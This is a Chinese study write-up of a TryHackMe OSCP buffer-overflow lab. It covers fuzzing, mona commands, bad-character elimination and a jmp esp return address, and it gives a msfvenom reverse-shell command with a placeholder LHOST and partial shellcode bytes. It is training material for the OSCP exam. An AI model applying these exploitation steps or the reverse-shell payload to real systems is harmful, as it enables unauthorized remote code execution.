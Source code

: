 # Buffer Overflow

相对较难，需要有较好的计组底子

缓冲区溢出基础：https://tryhackme.com/room/bof1

关于国内的博客讲的非常好的一篇文章，讲的很透彻很仔细：https://www.cnblogs.com/02SWD/p/15952483.html

---

### 请注意，这间客房不从头开始教授缓冲区溢出。它旨在帮助OSCP学生，并提请他们注意mona的一些功能，这将节省OSCP考试的时间。

我们将借助mona完成学习

### Overflow 1

    !mona config -set workingfolder c:\mona\%p

首先就是通过fuzz找到大概多少字节会导致缓冲区溢出使程序崩溃

我们可以通过构造一些随机字符，并且长度是上面fuzz的结果，我们可以使用一些小脚本帮助我们生成一些随机字符串：

    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

然后再次运行exploit再次造成程序崩溃，然后借助mona查找寄存器：

    !mona findmsp -distance <offset>

表示我们将从哪个位置开始查找，我们选择在我们缓冲区溢出的那个位置开始找，即上面fuzz的结果

Mona 应显示一个包含命令输出的日志窗口。如果没有，请单击“窗口”菜单，然后单击“日志数据”以查看它（选择“CPU”以切换回标准视图）。

在此输出中，您应该看到一行，其中指出：

    EIP contains normal pattern : ... (offset XXXX)

现在我们就已经知道了eip的开头位置，我们重新修改exploit的溢出的随机数据，不再使用上面fuzz的结果，而是使用"这里的eip offset"

这意味着我们将会使用随机数据一路填充到"这里的eip offset"，然后我们就可以控制该值

#### 个人理解：由于这里已经被我们填充的数据造成溢出了，所以这里的eip offset应该就是我们的函数返回地址

现在我们先使用随机数据填充 如：BBBB

### 寻找坏角色

使用 mona 生成字节数组，并通过以下方式排除空字节 （\x00） 违约。请注意生成的 bytearray.bin 文件的位置（如果工作文件夹是根据本指南的 Mona 配置部分设置的，则位置应为 C：\mona\oscp\bytearray.bin）。

    !mona bytearray -b "\x00"

现在生成一串与 字节阵列。以下 python 脚本可用于生成字符串 从 \x01 到 \xff 的坏字符数：

    for x in range(1, 256):
        print("\\x" + "{:02x}".format(x), end='')
    print()

更新 exploit.py 脚本，并将有效负载变量设置为脚本生成的错误字符字符串。

在免疫中重新启动 oscp.exe，然后再次运行修改后的 exploit.py 脚本。记下 ESP 寄存器指向的地址，并在以下 mona 命令中使用它：

    !mona compare -f C:\mona\oscp\bytearray.bin -a <address>

应该会出现一个弹出窗口，标有“mona 内存比较结果”。如果没有，请使用“窗口”菜单切换到它。该窗口显示比较结果，指示内存中与生成的 bytearray.bin 文件中的字符不同的任何字符。

#### 并非所有这些人都是坏人！有时 badchar 也会导致下一个字节损坏，甚至影响字符串的其余部分。

列表中的第一个 badchar 应该是空字节 （\x00），因为我们已经将其从文件中删除。记下任何其他内容。在 mona 中生成一个新的字节数组，指定这些新的 badchar 以及 \x00。然后更新 exploit.py 脚本中的有效负载变量并删除新的坏字符。

在免疫中重新启动 oscp.exe，然后再次运行修改后的 exploit.py 脚本。重复 badchar 比较，直到结果状态返回“未修改”。这表明不再存在坏字符。

### 寻找跳跃点

使用 oscp.exe无论是正在运行还是处于崩溃状态，请运行以下 mona 命令，确保使用您标识的所有坏字符（包括 \x00）更新 -cpb 选项：

    !mona jmp -r esp -cpb "\x00"

此命令查找所有“jmp esp”（或等效）指令，其地址不包含任何指定的坏字符。

### 我理解了很久，看了很多资料，才明白

然后选择其中一条jmp esp地址将其覆盖return address

#### 由函数调用过程可知，一般情况下，ESP中地址总是指向系统栈且不会被溢出的数据破坏。函数返回时，ESP所指的位置是淹没的返回地址的下一位（子函数平衡栈ret n时，ESP将指向下n位）。

### https://blog.csdn.net/yajuanpi4899/article/details/120944213

开始进行出栈读写操作：eip=esp，eip将esp的地址中指向的命令进行读取，逐步出栈，此时esp开始往低地址位靠近，当esp=ebp时，ebp读取现位置中存储的地址数据发生跳转，跳到父函数ebp处。

此时esp继续出栈，获取return addr，eip跳转至父函数栈顶位置，跳跃后eip继续从esp所含数据开始执行命令，就可以完成eip的函数执行步骤即：（此处要注意ret：即pop eip）

#### 根据前面我的个人理解，加上文章的引导。所以，由于函数的返回地址被我们填充为了指向jmp esp指令的地址，当eip从栈顶一路到栈底，也就是到这的时候将会去执行jmp esp指令，而这个时候，esp指向的地址恰好是父函数的栈顶，也就是我们shellcode开始的位置，所以我们的shellcode将会被执行。

### 生成Payload

在 Kali 上运行以下 msfvenom 命令，使用您的 Kali VPN IP 作为 LHOST，并使用您识别的所有坏字符（包括 \x00）更新 -b 选项：

    msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c

使用以下表示法复制生成的 C 代码字符串并将它们集成到 exploit.py 脚本有效负载变量中：

    payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
    "\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
    ...
    "\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
    "\x19\x53\xd0\x92\x19\x53\x2e\x1d")

### 预置 NOP

由于编码器可能用于生成有效负载，因此您将需要内存中的一些空间来解压缩有效负载本身。为此，可以将填充变量设置为 16 个或 <b>更多</b> “无操作”（\x90） 字节的字符串：

    padding = "\x90" * 16

现在我们的完整payload看起来像是这样的：

从缓冲区一直填充到栈底的return address，然后将jmp esp地址覆盖return address，而return address的后面就是我们的 NOP + shellcode，即父函数的栈顶。

---

### Overflow 2

按照套路先fuzz一波，在700字节的时候程序崩了，

    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 700

    !mona findmsp -distance 700

得到的结果是634

#### 查找坏字符

首先\x00除掉：

    !mona bytearray -b "\x00"

得到结果：00 23 3c 3d 83 84 ba bb

#### 并非所有这些人都是坏人！有时 badchar 也会导致下一个字节损坏，甚至影响字符串的其余部分。

挨个找：

    把23去掉，24没了，23是坏的。
    !mona bytearray -b "\x00\x23";exploit也去掉\x23

    把3c去掉，3d没了，3c坏的。
    !mona bytearray -b "\x00\x23\x3c";

    以此类推

最终答案：00 23 3c 83 ba

把\x01去掉，因为这是被\x00影响的

---

## 后面的八个练习都是差不多这样的，基本没什么两样，所以后面的就不写了，有两个例子足够了，后面都是一样的，就是慢慢挨个挨个排

（例子）方法：

    1.把07在脚本里面删了，坏字符串这里07还在上榜，08没了；07是坏的
    2.把08从脚本里面删了，07还在坏字符串榜上，08也上榜了，07是坏的
    3.把08从脚本里面删了，07、08都在，还多个09；07是坏的（除非07、08确定是好的）
